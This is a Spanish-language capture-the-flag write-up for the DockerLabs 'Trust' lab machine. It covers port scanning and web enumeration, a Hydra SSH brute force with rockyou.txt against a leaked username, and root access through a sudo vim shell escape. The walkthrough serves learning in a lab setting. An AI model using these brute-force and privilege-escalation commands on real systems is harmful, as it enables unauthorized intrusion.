plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/wD9BgLDR#784mjg4xwoolyyKMqdGLk1_YntbJLItJ7RFRx9A69ZE
Nombre: Trust
Dificultad: muy fácil
Creador:  El Pingüino de Mario
Herramientas:
[[Docker]]
[[Ping]]
[[NMAP]]
[[Gobuster]]
[[dirbuster (web)]]
[[Hydra, Ataques de Fuerza Bruta y John the Ripper]]
[[Puerto 22 SSH - SFTP (TCP)]]
[[Escalada de privilegios en LINUX]]


## Despliegue

```sh fold:"Levantamos la maquina en docker"
sudo bash auto_deploy.sh trust.tar 
```

![[DockerLabs - Trust - Despliegue.png]]


Comprobamos conectividad con un ping
```sh fold:"ping a la maquina"
pìng -c1 172.18.0.2
```

![[DockerLabs - Trust - Ping.png]]

## Reconocimiento
lanzamos un nmap para un reconocimiento:

```sh fold:"Nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.18.0.2
```

![[DockerLabs - Trust - nmap.png]]

Descubrimos los puertos 
80 y  22

## Reconocimiento puerto 80

abrimos el navegador para ver la web:
![[DockerLabs - Trust - Web por defecto.png]]

Aparece la web por defecto de apache.
vamos a buscar en el código fuente:
![[DockerLabs - Trust - Codigo web de apache.png]]

Pero no aparece nada interesante (esperaba algún comentario o algo así) en esta web
por tanto seguimos investigando haciendo gobuster, para encontrar rutas:

```sh fold:"Gobuster"
sudo gobuster dir -u http://192.168.1.141/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt 
```

No encontramos ninguna  carpeta interesante

![[DockerLabs - Trust - Gobuster.png]]

Al no encontrar rutas, vamos a intentar localizar ficheros haciendo Fuzzing con dirbuster:

![[DockerLabs - Trust - dirbuster.png]]


Le damos a start y empieza el scaneo:

![[DockerLabs - Trust - dirbuster result.png]]


172.18.0.2/secret.php:
![[DockerLabs - Trust - secret.php.png]]



Esta web parece no tener contenido interesante pero no es así, si nos fijamos en el mensaje:
Hola Mario,
Esta web no se puede hackerar.


Vemos que tenemos un usuario: Mario.

## intrusión

Si recordamos también está el puerto 22 (ssh) abierto, y con el usuario Mario podríamos intentar fuerza bruta con hydra:
```sh fold:"fuerza bruta al ssh con hydra"
hydra -l Mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```

Cuidado aquí porque el usuario la nota estaba en mayuscula: Mario y el usuario es minuscula, 
ha costado varias vueltas a hydra

resultado:
![[DockerLabs - Trust - hydra al ssh resu.png]]
Tenemos credenciales ssh: accedemos

![[DockerLabs - Trust - acceso SSH.png]]

Accedemos por SSH con el usuario mario

# Escalada de privilegios

hacemos un sudo -l y vemos lo siguiente:
![[DockerLabs - Trust - Escalada sudo -l.png]]

Buscamos la escalada de privilegios en gtfobbins para vim:

![[DockerLabs - Trust - Gtfobbins vim.png]]


Ponemos en practica lo encontrado:
aunque tenemos que adaptar el comando:


sudo vim -c ':!/bin/sh' --> sudo vim -c ':!/bin/bash'


![[DockerLabs - Trust - Root.png]]


Para finalizar hacemos CTR + C en la ventana donde está corriendo docker para cerrarlo y eliminar el laboratorio
![[DockerLabs - Trust - Eliminar laboratorio.png]]